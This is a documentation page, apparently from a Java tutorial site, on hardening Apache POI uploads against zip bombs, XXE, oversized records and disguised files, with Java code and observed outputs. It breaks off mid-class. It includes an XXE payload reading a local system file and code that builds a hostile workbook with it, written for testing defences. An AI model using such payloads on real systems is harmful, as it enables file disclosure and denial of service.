

Security & Untrusted Files
|
This content was generated with the assistance of AI and should be verified against the official documentation before being relied on in production. |
Baseline date: 2026-10-09. This page was written against Apache POI 5.5.1 (the latest release on that date; 6.0 is announced but has not been released, so everything about 6.0 below is expected, not shipped), Java 21 and later, Spring Boot 4.x on Spring Framework 7 and Jakarta EE 11. Every class in this page was compiled against POI 5.5.1 and run; the outputs marked as observed come from those runs.
An Office file is not a document, it is a small file system (a zip archive for .xlsx and .docx, an OLE2 compound file for
.xls and .doc) full of length-prefixed structures and XML. Opening one with POI means running a parser, written by
volunteers, over input chosen by an attacker. The Bookshelf import pages of this section accept books-import.xlsx
and book-request-form.docx from users, so this page is the one that every upload endpoint of the section depends on.
It has two halves that are easy to confuse:
-
Inbound: a hostile file reaches your parser (zip bombs, XML external entities, huge allocations, macros, files that are not what their extension says). This covers every section before the one on formula injection.
-
Outbound: hostile text reaches your exporter and ends up in a cell that a person opens in Excel (formula injection). This is the section on formula injection near the end.
The pages that use these rules are Spreadsheet Usermodel Basics (the API the examples read with), File Formats: OOXML & OLE2 (what is inside the files) and Streaming Reads: Event & SAX APIs (the low-memory way to read a large upload). Two other pages of this site cover the same problems for other stacks and are the natural comparison: JSF File Upload & Download (the upload and download mechanics in a JSF application, including escaping CSV cells against formula injection) and Django Responses: Streaming, CSV & PDF (CSV and formula injection in Python). The server-side import and export workflows of the section (an upload endpoint, an import with per-row validation, an export endpoint) are written on later pages of this section, which build on this page.
The threat model
POI says it plainly in its security guidance: never parse files from untrusted or unknown sources if you can avoid it, and where you cannot, assume that the parser can be made to misbehave. The ways in which it can are specific and worth listing, because every limit in this page answers one of them:
| Attack | What the file does | Defence in this page |
|---|---|---|
Zip bomb |
A few kilobytes of zip expand to gigabytes when a part is read (a sheet of blank cells, a repeated string). |
|
Allocation bomb |
A record in an OLE2 file or in an OOXML part declares a length of 2 GB; the parser allocates it. |
|
XML external entity (XXE) and entity expansion |
An XML part carries a DOCTYPE with an external entity (read a local file, call an internal URL) or a "billion laughs" expansion. |
DOCTYPE is refused by default since POI 5.1.0; use |
Parser denial of service |
A crafted structure makes the parser loop, recurse ( |
A timeout, a bounded worker pool, catching |
Disguised or active content |
An executable renamed |
Extension allow-list, |
Ambiguous archive |
Several zip entries with the same name, so that two products read different data from the same file. |
POI 5.4.0 and later throw when a name is duplicated; the validator below also rejects it. |
Temp files |
POI writes temp files for large parts; another local user reads or replaces them. |
A private temp directory and encrypted zip-entry temp files. |
Formula injection |
User text such as |
Write user text with |
Source: POI Security, POI Configuration and the OWASP File Upload Cheat Sheet.
What the POI security guidance says
The guidance on the POI site is short and every sentence of it is operational. This is what it asks of an application that parses untrusted input, and how this page answers each item:
| POI guidance | Meaning | Where it is handled |
|---|---|---|
Expect any exception, including |
A parser fed hostile bytes may throw |
|
Parsing can use a lot of CPU |
Set up a way to stop the work after a timeout. |
Worker pool with |
Compressed files expand; legacy formats are the worst |
Use the streaming APIs for large .xlsx; .xls, .doc and .ppt can exhaust memory, and POI’s checks for suspicious values are not exhaustive. |
Upload size limit, record limits, a heap limit on the process that parses. |
POI writes many temp files |
Make sure untrusted users cannot read or change the temp directory; you can plug in your own strategy. |
|
Secrets may stay in memory |
Keys held in |
Clear them in a |
Isolate in high-security settings |
Parse in a separate process with a memory limit and a timeout, and restart it after a crash. |
|
Keep POI up to date |
Newer releases often harden the parsers; follow the project advisories. |
The last section of this page. |
Two honest remarks follow from that list. First, POI does not claim to be safe against hostile input: its limits reduce the blast radius, and the project itself recommends isolation when the stakes are high. Second, there is no setting that turns "untrusted mode" on; the protection is the sum of the limits, the validation and the isolation shown below.
Source: POI Security.
The pipeline
The page is organised around one pipeline. It is deliberately boring: every stage can reject, and the stage that
actually builds a Workbook or an XWPFDocument comes late, after the cheap checks.

Stages 1 and 2 (store the bytes and validate them) are cheap and run in the request thread. Stage 3 (parse) is the only one that runs POI’s parsers, so it is the one to bound with limits, a timeout and, when the risk justifies it, a process boundary. Stage 4 maps the cells or paragraphs to your own types and validates the content (that is the subject of the import pages of this section). Stage 5 persists only data that has passed everything, with parameterised statements, because a cell value is as untrusted as the file around it.
Limits for zip bombs and large records
POI ships with defaults for every limit below, but the defaults are chosen to open legitimate large files, not to protect a server with 512 MB of heap. Set them once, at startup, to values taken from the files your application really accepts. The settings are static (JVM-wide), so a service that must process different kinds of file with different limits needs separate processes.
| Setting | Default (observed in 5.5.1) | What it protects |
|---|---|---|
|
|
Compressed size divided by expanded size of an entry. When the data compresses better than the ratio, once the grace size has been read, reading fails with "Zip bomb detected!". Lower the ratio and you accept fewer files; setting it to |
|
|
Entries smaller than this are not tested for the ratio, so that tiny entries do not trigger false positives. |
|
|
Largest expanded size of one entry. A realistic limit for a Bookshelf import is far lower. |
|
|
Largest amount of text that the extractors return from one document. |
|
|
Number of entries in the archive. A normal workbook has dozens; a document with many pictures, a few hundred. |
|
|
The largest |
|
|
Initial allocation for arrays of unknown length. POI grows the array as data really arrives, so a lying header cannot force a large first allocation. |
|
|
The largest record accepted by that parser. These are the knobs behind the "record length exceeds" errors that legitimate large legacy files sometimes hit. |
|
class defaults |
The largest picture accepted from a document. |
|
|
Whether the temp files POI creates for zip entries are encrypted (added in 5.1.0). |
Reading the table with a Bookshelf service in mind: the largest legitimate books-import.xlsx is a few thousand rows,
so a 10 MiB upload limit, a 100 MiB entry limit and a 2 000 entry limit are generous; a service that exports, not
imports, can keep the defaults because it never opens foreign files.
package bookshelf.security;
import org.apache.poi.hssf.usermodel.HSSFWorkbook;
import org.apache.poi.hwpf.HWPFDocument;
import org.apache.poi.openxml4j.util.ZipSecureFile;
import org.apache.poi.openxml4j.util.ZipInputStreamZipEntrySource;
import org.apache.poi.util.DefaultTempFileCreationStrategy;
import org.apache.poi.util.IOUtils;
import org.apache.poi.util.TempFile;
/** Process-wide POI limits for a service that opens uploaded files. Call once at startup. */
public final class PoiLimits {
private PoiLimits() {
}
public static void apply() {
// zip bombs in .xlsx / .docx
ZipSecureFile.setMinInflateRatio(0.01); // compressed / expanded; default 0.01
ZipSecureFile.setMaxEntrySize(100L * 1024 * 1024); // 100 MiB per entry; default 4 GiB (0xFFFFFFFF)
ZipSecureFile.setMaxTextSize(10L * 1024 * 1024); // 10 MiB of text per extraction; default 10 MiB
ZipSecureFile.setMaxFileCount(2_000); // zip entries; default 1 000
// length-prefixed records in OLE2 files and in the OOXML parts that POI reads into byte[]
IOUtils.setByteArrayMaxOverride(50 * 1024 * 1024); // largest single array POI may allocate
IOUtils.setMaxByteArrayInitSize(1024 * 1024); // initial allocation, grown as data arrives
HSSFWorkbook.setMaxRecordLength(50 * 1024 * 1024);
HWPFDocument.setMaxRecordLength(50 * 1024 * 1024);
}
/** POI writes temp files for large parts and for SXSSF; keep them where only this service can read them. */
public static void useTempDirectory(java.nio.file.Path privateDir) throws java.io.IOException {
java.nio.file.Files.createDirectories(privateDir);
TempFile.setTempFileCreationStrategy(new DefaultTempFileCreationStrategy(privateDir.toFile()));
ZipInputStreamZipEntrySource.setEncryptTempFiles(true); // temp files for zip entries are encrypted
}
public static String describe() {
return "minInflateRatio=" + ZipSecureFile.getMinInflateRatio()
+ " maxEntrySize=" + ZipSecureFile.getMaxEntrySize()
+ " graceEntrySize=" + ZipSecureFile.getGraceEntrySize()
+ " maxTextSize=" + ZipSecureFile.getMaxTextSize()
+ " maxFileCount=" + ZipSecureFile.getMaxFileCount()
+ " byteArrayMaxOverride=" + IOUtils.getByteArrayMaxOverride()
+ " maxByteArrayInitSize=" + IOUtils.getMaxByteArrayInitSize()
+ " hssfMaxRecordLength=" + HSSFWorkbook.getMaxRecordLength();
}
}The describe() method printed the following in a plain JVM, before and after apply() (observed):
defaults : minInflateRatio=0.01 maxEntrySize=4294967295 graceEntrySize=102400 maxTextSize=10485760 maxFileCount=1000 byteArrayMaxOverride=-1 maxByteArrayInitSize=-1 hssfMaxRecordLength=100000
applied : minInflateRatio=0.01 maxEntrySize=104857600 graceEntrySize=102400 maxTextSize=10485760 maxFileCount=2000 byteArrayMaxOverride=52428800 maxByteArrayInitSize=1048576 hssfMaxRecordLength=52428800Source: POI Configuration,
ZipSecureFile,
IOUtils,
HSSFWorkbook and
HWPFDocument.
Three things about these limits are easy to get wrong:
-
They are process-wide static state. Call
apply()before the first upload and never from a request thread, and do not change them per request: another thread may be parsing at that moment. -
They are a tripwire, not a budget. A zip bomb that stays under the entry limit but is repeated across many entries still fills the heap. The limits make the obvious attacks fail fast; the JVM heap limit and the timeout stop the rest.
-
Raising a limit is the usual cause of the incident. A support ticket "this file will not open" is solved with
setByteArrayMaxOverride(Integer.MAX_VALUE)in a hurry, and the service then accepts every hostile record length. Raise a limit only for the exact error the file triggers, to the exact value it needs, and ideally only in the process that handles trusted files.
What a zip bomb looks like to POI
To see the tripwire work, the demonstration below takes a valid workbook and appends 60 MB of blanks, inside an XML
comment, to xl/worksheets/sheet1.xml. The file on disk is 64 692 bytes. Because the check reads the entry while
inflating it, the file passes the cheap validation (its zip directory is normal) and is stopped when the sheet part is
read (observed):
bomb parse : The file could not be read. <- org.apache.poi.ooxml.POIXMLException: java.io.IOException: Zip bomb detected! The file would exceed the max. ratio of compressed file size to the size of the expanded data.
This may indicate that the file is used to inflate memory usage and thus could pose a security risk.
You can adjust this limit via ZipSecureFile.setMinInflateRatio() if you need to work with files which exceed this limit.
Uncompressed size: 103029, Raw/compressed size: 1024, ratio: 0.009939
Limits: MIN_INFLATE_RATIO: 0.010000, Entry: xl/worksheets/sheet1.xmlTwo observations. The message is long and contains the part name, which is why the code in this page logs the cause and returns a fixed sentence to the client. And the check fired after about 100 KiB of expanded data, not after 60 MB: the protection works because it is evaluated while the stream is read.
XML external entities and DOCTYPE
Every OOXML part is XML, and XML has a feature that no spreadsheet needs: the DOCTYPE declaration, with which a
document defines entities that can point to a local file or to a network address. A parser that expands them reads
file:///etc/passwd or calls an internal service on behalf of the attacker (XXE), or expands a few lines into
gigabytes (entity expansion).
POI’s history on this is a clean illustration of why staying updated matters. XMLBeans before 3.0.0 was vulnerable
(CVE-2021-23926), the XSSFExportToXml tool before POI 4.1.1 was vulnerable (CVE-2019-12415), and since POI 5.1.0 the
default options that POI hands to XMLBeans refuse any document with a DOCTYPE. The options are a public static field:
POIXMLTypeLoader.DEFAULT_XML_OPTIONS.
| Where XML is parsed | What protects it |
|---|---|
Every OOXML part read through |
|
The SAX and event APIs ( |
You create the |
XML you parse yourself, next to POI (a custom part, a sidecar manifest, a |
|
XML from any other library |
Its own configuration. Follow the OWASP XXE Prevention Cheat Sheet for the parser in question. |
The example parses a classic payload with POI’s factory and with the JDK default, then opens a workbook whose sheet part
was altered to carry the same DOCTYPE (the /etc/hosts file only stands for "a local file"):
package bookshelf.security;
import java.io.OutputStream;
import java.io.StringReader;
import java.nio.charset.StandardCharsets;
import java.nio.file.Files;
import java.nio.file.Path;
import java.util.zip.ZipEntry;
import java.util.zip.ZipFile;
import java.util.zip.ZipOutputStream;
import org.apache.poi.ss.usermodel.Workbook;
import org.apache.poi.xssf.usermodel.XSSFWorkbook;
import org.apache.poi.ooxml.POIXMLTypeLoader;
import org.apache.poi.util.XMLHelper;
import org.apache.xmlbeans.XmlOptions;
import org.w3c.dom.Document;
import org.xml.sax.InputSource;
public class XmlHardening {
public static void main(String[] args) throws Exception {
String xxe = """
<?xml version="1.0"?>
<!DOCTYPE title [ <!ENTITY secret SYSTEM "file:///etc/hosts"> ]>
<title>&secret;</title>""";
// 1. XML you parse yourself next to POI (a custom part, a sidecar file): use POI's factories
try {
Document d = XMLHelper.newDocumentBuilder().parse(new InputSource(new StringReader(xxe)));
System.out.println("parsed: " + d.getDocumentElement().getTextContent());
} catch (Exception e) {
System.out.println("XMLHelper : " + e.getClass().getSimpleName() + ": " + e.getMessage());
}
// 2. the same input through the JDK defaults, to show why the helper matters
Document d = javax.xml.parsers.DocumentBuilderFactory.newInstance().newDocumentBuilder()
.parse(new InputSource(new StringReader(xxe)));
System.out.println("JDK default: entity expanded, " + d.getDocumentElement().getTextContent().length() + " characters of the local file read");
// 3. the options POI hands to XMLBeans for every OOXML part
XmlOptions opts = POIXMLTypeLoader.DEFAULT_XML_OPTIONS;
System.out.println("disallowDocTypeDeclaration=" + opts.disallowDocTypeDeclaration()
+ " entityExpansionLimit=" + opts.getEntityExpansionLimit()
+ " loadStripComments=" + opts.isLoadStripComments()
+ " loadStripProcinsts=" + opts.isLoadStripProcinsts());
// 4. a workbook whose sheet part declares a DOCTYPE is refused by POI itself
Path src = Files.createTempFile("xxe", ".xlsx");
try (Workbook wb = new XSSFWorkbook(); OutputStream os = Files.newOutputStream(src)) {
wb.createSheet("Books").createRow(0).createCell(0).setCellValue("Dune");
wb.write(os);
}
Path hostile = Files.createTempFile("xxe-doctype", ".xlsx");
try (ZipFile zf = new ZipFile(src.toFile()); ZipOutputStream zo = new ZipOutputStream(Files.newOutputStream(hostile))) {
for (var en = zf.entries(); en.hasMoreElements();) {
ZipEntry e = en.nextElement();
String xml = new String(zf.getInputStream(e).readAllBytes(), StandardCharsets.UTF_8);
if (e.getName().equals("xl/worksheets/sheet1.xml")) {
xml = xml.replaceFirst("\\?>", "?>\n<!DOCTYPE worksheet [ <!ENTITY secret SYSTEM \"file:///etc/hosts\"> ]>");
}
zo.putNextEntry(new ZipEntry(e.getName()));
zo.write(xml.getBytes(StandardCharsets.UTF_8));
zo.closeEntry();
}
}
try (Workbook wb = new XSSFWorkbook(hostile.toFile())) {
System.out.println("opened, first cell = " + wb.getSheetAt(0).getRow(0).getCell(0));
} catch (Throwable t) {
System.out.println("XSSFWorkbook: " + t.getClass().getSimpleName() + " / cause " + t.getCause());
}
}
}Observed output (the first line is the factory that POI configures, the second is the JDK default expanding the entity
and reading the local file, the third is the option set of DEFAULT_XML_OPTIONS and the fourth is POI itself refusing
the altered workbook):
XMLHelper : SAXParseException: DOCTYPE is disallowed when the feature "http://apache.org/xml/features/disallow-doctype-decl" set to true.
JDK default: entity expanded, 213 characters of the local file read
disallowDocTypeDeclaration=true entityExpansionLimit=1 loadStripComments=true loadStripProcinsts=true
XSSFWorkbook: POIXMLException / cause org.apache.xmlbeans.XmlException: error: DOCTYPE is disallowed when the feature "http://apache.org/xml/features/disallow-doctype-decl" set to true.The second line is the reason not to trust defaults of the platform: the JDK parser followed the entity and read a local
file. The entityExpansionLimit of 1 is what POI 5.5.1 reports for its options; those options protect POI’s own parsing and say nothing about XML that you parse with another factory.
Source: POI Configuration,
POIXMLTypeLoader,
XMLHelper and the OWASP
XML External Entity
Prevention Cheat Sheet.
Stricter parsing since 5.4.0
POI 5.4.0 hardened the OOXML reader against ambiguous archives. A zip archive may contain two
entries with the same name; different readers pick different ones, so a scanner can approve one version of a file while
the application reads the other. That is CVE-2025-31672, described by the project as an improper input validation
vulnerability in poi-ooxml before 5.4.0. Since 5.4.0, poi-ooxml throws an exception when it finds zip entries with
duplicate names.
What this means in practice:
-
Upgrade rather than work around. If the service is still on 5.3.x or older, the duplicate-name check is absent and your own validation must provide it (the validator below does, on lower-cased names, so it also catches names that differ only by case).
-
Some real files now fail. A few files produced by buggy third-party generators contain duplicated entries and opened before 5.4.0. They fail with an
IOExceptionor aPOIXMLExceptionafter the upgrade. The right answer is to fix the generator or to reject the file, not to downgrade. -
Other stricter behaviour accompanies the line. The 5.4.x and 5.5.x release notes list continuing hardening of the parsers (limits, input validation), and the project says that 6.0 will harden against zip bombs and path traversal further. Read the release notes (
changes.html) at each upgrade and run the test suite of your import with the hostile files of this page in it.
Source: POI Security, the POI home page (security advisories) and POI release changes.
Validating an upload before parsing it
The OWASP File Upload Cheat Sheet is a list of independent controls, because no single check is reliable. Applied to an Office upload, with the control that handles each in this page:
| OWASP control | For Office files | Where |
|---|---|---|
Allow only the extensions the business needs |
An allow-list of |
|
Validate the file type from its content, not from the |
The header is chosen by the client. Check the first bytes with |
|
Limit the file size and the number of files |
A hard byte limit while the upload is streamed, not after it is buffered, plus the limits of the multipart parser and of the reverse proxy. |
|
Change the file name; do not use the client’s name in a path |
Generate the stored name; keep the client name only for display and for choosing the expected type. |
|
Store the files outside the web root, with restricted permissions |
A directory that only the service account reads. Never serve the stored upload back. |
|
Scan for malware, or analyse the content |
Pass the file through your antivirus or a content-disarm service when you have one, before the parse. POI does not do this. |
Outside POI |
Check the content structure |
The zip directory (entry count, names, duplicate names, the expected main part) and the OLE2 directory (the expected stream). No part is parsed. |
|
Reject active content |
|
|
A few of those rows deserve a comment.
Extension and magic number must agree. FileMagic classifies by the leading bytes; an .xls renamed .xlsx passes the
extension test and fails the magic test, and an executable renamed .xlsx fails both (observed below). FileMagic.OOXML
only says "a zip"; it cannot tell a workbook from a jar. That is why the validator then opens the zip directory and
requires xl/workbook.xml (or word/document.xml): the main part is the real discriminator.
Macro-enabled files. A workbook saved as .xlsm and then renamed .xlsx still contains xl/vbaProject.bin and a
macro-enabled content type. POI never runs VBA, so a macro cannot hurt the server through POI; the risk is the next
person who downloads and opens the file in Office. If the application stores the upload and shows it to others, reject
macro content; if it only reads cells and discards the file, it is optional, but rejecting costs nothing. Note that
OLE2 files (.xls, .doc) have no extension that says "with macros", so the check must look inside.
What the cheap checks cannot see. The validator does not detect zip bombs (the file in the demonstration has a
normal zip directory), embedded OLE objects, external links (externalLink parts) or remote template references
(attachedTemplate in settings.xml.rels). The first is handled by the limits at parse time; external links are
metadata that POI does not follow, but a person opening the file in Office may be prompted to update them.
package bookshelf.security;
import java.io.IOException;
import java.io.InputStream;
import java.nio.charset.StandardCharsets;
import java.nio.file.Files;
import java.nio.file.Path;
import java.util.Enumeration;
import java.util.HashSet;
import java.util.Locale;
import java.util.Set;
import org.apache.commons.compress.archivers.zip.ZipArchiveEntry;
import org.apache.poi.openxml4j.util.ZipSecureFile;
import org.apache.poi.poifs.filesystem.DirectoryNode;
import org.apache.poi.poifs.filesystem.FileMagic;
import org.apache.poi.poifs.filesystem.POIFSFileSystem;
/**
* Cheap checks that run before the document is parsed. They look at the name, the size, the first
* bytes and the zip directory (or the OLE2 directory); they never build a Workbook or a document.
*/
public final class UploadValidator {
public enum Kind { XLSX, XLS, DOCX, DOC }
private static final long MAX_UPLOAD_BYTES = 10L * 1024 * 1024;
private static final int MAX_ZIP_ENTRIES = 2_000;
private static final int MAX_CONTENT_TYPES_BYTES = 256 * 1024;
/** Extension allow-list. Macro-enabled extensions (xlsm, docm, xlsb, xltm) are deliberately absent. */
private static final Set<String> ALLOWED = Set.of("xlsx", "xls", "docx", "doc");
public Kind validate(Path stored, String clientFileName) throws UploadRejectedException {
Kind byName = kindFromName(clientFileName);
try {
if (Files.size(stored) > MAX_UPLOAD_BYTES) {
throw new UploadRejectedException("The file is larger than 10 MiB.");
}
FileMagic magic = FileMagic.valueOf(stored.toFile());
boolean ooxml = byName == Kind.XLSX || byName == Kind.DOCX;
if (ooxml && magic != FileMagic.OOXML || !ooxml && magic != FileMagic.OLE2) {
throw new UploadRejectedException("The content does not match the file extension.");
}
if (ooxml) {
checkZip(stored, byName);
} else {
checkOle2(stored, byName);
}
return byName;
} catch (UploadRejectedException e) {
throw e;
} catch (Throwable t) { // corrupt input can raise runtime exceptions and even errors
throw new UploadRejectedException("The file is not a valid Office document.", t);
}
}
private static Kind kindFromName(String clientFileName) throws UploadRejectedException {
// use the name only to pick the expected type; never to build a storage path
String name = clientFileName == null ? "" : clientFileName.toLowerCase(Locale.ROOT);
int dot = name.lastIndexOf('.');
String ext = dot < 0 ? "" : name.substring(dot + 1);
if (!ALLOWED.contains(ext)) {
throw new UploadRejectedException("Only .xlsx, .xls, .docx and .doc files are accepted.");
}
return Kind.valueOf(ext.toUpperCase(Locale.ROOT));
}
private static void checkZip(Path stored, Kind kind) throws IOException, UploadRejectedException {
String mainPart = kind == Kind.XLSX ? "xl/workbook.xml" : "word/document.xml";
Set<String> names = new HashSet<>();
boolean hasMain = false;
try (ZipSecureFile zip = new ZipSecureFile(stored.toFile())) {
Enumeration<ZipArchiveEntry> entries = zip.getEntries();
while (entries.hasMoreElements()) {
ZipArchiveEntry entry = entries.nextElement();
String name = entry.getName();
if (names.size() >= MAX_ZIP_ENTRIES) {
throw new UploadRejectedException("The document has too many parts.");
}
if (!names.add(name.toLowerCase(Locale.ROOT))) {
throw new UploadRejectedException("The document contains duplicate parts.");
}
if (name.startsWith("/") || name.contains("..") || name.contains("\\")) {
throw new UploadRejectedException("The document contains an unsafe part name.");
}
if (name.toLowerCase(Locale.ROOT).endsWith("vbaproject.bin")) {
throw new UploadRejectedException("Documents with macros are not accepted.");
}
hasMain |= name.equals(mainPart);
}
if (!hasMain) {
throw new UploadRejectedException("The file is not a " + kind + " document.");
}
ZipArchiveEntry types = zip.getEntry("[Content_Types].xml");
if (types == null) {
throw new UploadRejectedException("The file is not an Office document.");
}
try (InputStream in = zip.getInputStream(types)) {
String xml = new String(in.readNBytes(MAX_CONTENT_TYPES_BYTES), StandardCharsets.UTF_8);
if (xml.contains("macroEnabled")) {
throw new UploadRejectedException("Macro-enabled documents are not accepted.");
}
}
}
}
private static void checkOle2(Path stored, Kind kind) throws IOException, UploadRejectedException {
try (POIFSFileSystem fs = new POIFSFileSystem(stored.toFile(), true)) {
DirectoryNode root = fs.getRoot();
String mainStream = kind == Kind.XLS ? "Workbook" : "WordDocument";
if (!root.hasEntry(mainStream) && !(kind == Kind.XLS && root.hasEntry("Book"))) {
throw new UploadRejectedException("The file is not a " + kind + " document.");
}
if (root.hasEntry("_VBA_PROJECT_CUR") || root.hasEntry("Macros") || root.hasEntry("VBA")) {
throw new UploadRejectedException("Documents with macros are not accepted.");
}
}
}
}Rejected uploads raise UploadRejectedException, whose message is safe to show and whose cause is for the log:
package bookshelf.security;
/** A rejected upload; the message is safe to show to the user, the cause is for the log only. */
public class UploadRejectedException extends Exception {
public UploadRejectedException(String userMessage) {
super(userMessage);
}
public UploadRejectedException(String userMessage, Throwable cause) {
super(userMessage, cause);
}
}The demonstration builds six files and validates them; this is the observed output (the hostile file names are the client names, the stored files have generated names):
books.xlsx -> XLSX
books.xls -> XLS
books.xlsx -> rejected: The content does not match the file extension. (an .xls named .xlsx)
books.xlsx -> rejected: The content does not match the file extension. (MZ header, not a workbook)
books.xlsm -> rejected: Only .xlsx, .xls, .docx and .doc files are accepted.
books.xlsx -> rejected: Documents with macros are not accepted. (contains xl/vbaProject.bin)
books.xlsx -> XLSX (the zip bomb: normal directory)The last line is deliberate. The zip bomb passed validation and was stopped by the parse stage, which is why the validator is a filter and not a guarantee.
Source: the OWASP File Upload Cheat Sheet,
FileMagic and
ZipSecureFile.
Parsing with a timeout, a bounded pool and Throwable
A validated file can still be a bad file, so the parse is run as if it were going to fail. Three rules:
-
Bound the work. A bounded pool turns "a hundred users upload at once" into a queue instead of a hundred workbooks in the heap. Size the pool from the heap limit divided by the worst-case memory of one parse (the performance page of this section gives the usual estimates).
-
Time-box it.
Future.get(timeout)gives up waiting, but POI does not check for interruption, socancel(true)does not stop the thread. The thread keeps running until it finishes or the JVM exits. Use daemon threads so that a stuck parse does not block shutdown, and accept that a timeout is an alarm and not a brake. -
Catch
Throwableat the boundary of the parse, not around the whole request.StackOverflowErroris the classic result of a deeply nested structure;OutOfMemoryErrorafter a failed allocation usually leaves the JVM usable, but treat repeated occurrences as a signal to restart the process.
package bookshelf.security;
import java.nio.file.Path;
import java.util.ArrayList;
import java.util.List;
import java.util.concurrent.ExecutionException;
import java.util.concurrent.ExecutorService;
import java.util.concurrent.Executors;
import java.util.concurrent.Future;
import java.util.concurrent.TimeUnit;
import java.util.concurrent.TimeoutException;
import org.apache.poi.ss.usermodel.DataFormatter;
import org.apache.poi.ss.usermodel.Row;
import org.apache.poi.ss.usermodel.Sheet;
import org.apache.poi.ss.usermodel.Workbook;
import org.apache.poi.ss.usermodel.WorkbookFactory;
/** Parses a validated upload on a bounded worker, with a timeout, and converts every failure. */
public final class SafeWorkbookReader implements AutoCloseable {
private final ExecutorService pool = Executors.newFixedThreadPool(2, r -> {
Thread t = new Thread(r, "untrusted-parse");
t.setDaemon(true); // a stuck parse must not keep the JVM alive
return t;
});
public List<String> readFirstColumn(Path stored, long timeoutSeconds) throws UploadRejectedException {
Future<List<String>> future = pool.submit(() -> parse(stored));
try {
return future.get(timeoutSeconds, TimeUnit.SECONDS);
} catch (TimeoutException e) {
future.cancel(true); // interrupts, but POI does not check for interruption
throw new UploadRejectedException("The file took too long to process.", e);
} catch (InterruptedException e) {
Thread.currentThread().interrupt();
throw new UploadRejectedException("Processing was interrupted.", e);
} catch (ExecutionException e) {
// e.getCause() may be an Error such as StackOverflowError or OutOfMemoryError
throw new UploadRejectedException("The file could not be read.", e.getCause());
}
}
private static List<String> parse(Path stored) throws Exception {
List<String> titles = new ArrayList<>();
DataFormatter formatter = new DataFormatter();
try (Workbook wb = WorkbookFactory.create(stored.toFile(), null, true)) { // read-only
Sheet sheet = wb.getSheetAt(0);
for (Row row : sheet) {
if (row.getCell(0) != null) {
titles.add(formatter.formatCellValue(row.getCell(0)));
}
}
}
return titles;
}
@Override
public void close() {
pool.shutdownNow();
}
}The same reader opens the workbook read-only (WorkbookFactory.create(File, String, boolean) with readOnly = true),
from a File and not from an InputStream, which lets POI read the package from disk instead of buffering it. It uses DataFormatter, so a formula cell yields the cached result as the user sees it and POI never
evaluates a formula from an untrusted file. If your import needs the evaluated values, use the cached values:
FormulaEvaluator runs an interpreter over attacker-controlled expressions and should not be applied to untrusted
workbooks.
Source: WorkbookFactory and
POI Security.
A real brake: a child process
The only way to stop a parse that does not return is to kill the thread’s process, and the only way to bound its memory
is a heap limit that is not shared with the web application. POI recommends exactly that for high-security
settings: parse in a separate process with memory limits and a timeout, and restart it after a crash. The smallest
version of that is a child JVM started per upload (or from a small pool), with its own -Xmx, whose result is a line of
text:
package bookshelf.security;
import java.io.IOException;
import java.nio.file.Path;
import java.util.List;
import java.util.concurrent.TimeUnit;
/** Runs the parse in a separate JVM with its own heap limit; the OS can kill it on timeout. */
public final class ChildProcessParser {
public static final class Worker {
public static void main(String[] args) throws Exception {
PoiLimits.apply();
try (SafeWorkbookReader reader = new SafeWorkbookReader()) {
List<String> titles = reader.readFirstColumn(Path.of(args[0]), 20);
System.out.println("rows=" + titles.size());
} catch (UploadRejectedException e) {
System.out.println("rejected=" + e.getMessage());
System.exit(2);
}
}
}
public String run(Path file, long timeoutSeconds) throws IOException, InterruptedException {
String java = Path.of(System.getProperty("java.home"), "bin", "java").toString();
Process p = new ProcessBuilder(java, "-Xmx256m", "-Djava.io.tmpdir=" + System.getProperty("java.io.tmpdir"),
"-cp", System.getProperty("java.class.path"), Worker.class.getName(), file.toString())
.redirectErrorStream(true)
.start();
if (!p.waitFor(timeoutSeconds, TimeUnit.SECONDS)) {
p.destroyForcibly();
return "killed after " + timeoutSeconds + " s";
}
return new String(p.getInputStream().readAllBytes()).strip() + " (exit " + p.exitValue() + ")";
}
}Observed with the good file and with the zip bomb of the earlier demonstration:
child good : rows=7 (exit 0)
child bomb : rejected=The file could not be read. (exit 2)The cost is real: a JVM start takes a few hundred milliseconds, the child needs POI on its class path, and a result
bigger than a few rows must go through a file or a pipe rather than standard output. In exchange, a crash, an
OutOfMemoryError or an infinite loop costs one disposable process. Containers give the same boundary with more
control: run the parse in a short-lived container or a Kubernetes job with CPU and memory limits, a read-only root file
system, no network and a non-root user. That is the "sandbox" of the figure; the POI guidance does not prescribe a
mechanism, only the property.
A temp directory belongs to the same discussion. POI writes temp files for large parts and for SXSSF, and its default
strategy puts them in a shared poifiles directory under java.io.tmpdir. PoiLimits.useTempDirectory (shown earlier)
installs a DefaultTempFileCreationStrategy that points at a directory private to the service, and enables encryption
of the temp files that hold zip entries.
Source: POI Security,
TempFile and
POI Configuration.
Putting the stages together
BookImportService is the whole pipeline of the figure in one class: it streams the upload to a private temp file with a
hard size limit, validates, parses with a timeout, and deletes the file in a finally block whatever happens. It is
deliberately independent of Spring and of Jakarta REST, so that the controller of any framework can call it with the
InputStream of the multipart part. The upload endpoints of this section’s server pages and the JSF upload page linked
above show the framework side (multipart limits, request size, content type).
package bookshelf.security;
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.nio.file.Files;
import java.nio.file.Path;
import java.util.List;
/** The whole pipeline: stream to a private temp file, validate, parse with a timeout, always clean up. */
public final class BookImportService implements AutoCloseable {
private static final long MAX_BYTES = 10L * 1024 * 1024;
private final Path uploadDir;
private final UploadValidator validator = new UploadValidator();
private final SafeWorkbookReader reader = new SafeWorkbookReader();
